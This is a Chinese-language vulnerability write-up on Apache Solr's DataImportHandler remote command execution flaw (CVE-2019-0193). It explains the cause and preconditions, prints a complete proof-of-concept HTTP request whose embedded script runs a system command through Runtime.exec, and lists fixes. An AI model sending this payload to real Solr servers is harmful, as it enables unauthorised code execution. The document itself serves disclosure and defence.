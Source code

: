 ### 一 漏洞名
Apache solr 远程命令执行漏洞（CVE-2019-0193）

### 二 漏洞描述
Apache Solr 是一个开源的搜索服务器。  
Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。  
此次漏洞出现在Apache Solr的DataImportHandler（数据导入处理程序），该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

该模块的配置信息 "DIH配置"(DIH configuration) 可使用以下的方式指定:  
Server端 - 通过Server的“配置文件“来指定配置信息"DIH配置"  
web请求 - 使用web请求中的dataConfig参数(该参数用户可控）来指定配置信息"DIH配置"（整个DIH配置可以来自请求的“dataConfig”参数）  

Apache Solr如果启用了DataImportHandler模块，因为它支持使用web请求来指定配置信息"DIH配置" ，攻击者可构造HTTP请求指定dataConfig参数的值(dataConfig内容)，dataConfig内容完全可控(多种利用方式)。
由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

### 三 漏洞利用
DIH配置中，配置从外部数据源中获取数据之后，需要配置数据格式转换。  
构造包含脚本的配置信息， 当Web后端处理该请求时，会使用“脚本转换器“(ScriptTransformer)对“脚本“进行解析，而Web后端未对脚本内容做任何限制(可以导入并使用任意的Java类，如执行命令的类)，导致可以执行任意代码。  
利用条件：  
1 启用了模块DataImportHandler(默认情况下该模块不会被启用)  
2 Solr Admin UI未开启鉴权认证  
```
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close
 
command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```
![img.png](img.png)

### 四 修复方式
1 关闭Solr的DataImportHandler  
2 添加Admin UI 认证
3 升级

> 参考链接: https://blog.csdn.net/whatday/article/details/106959989/
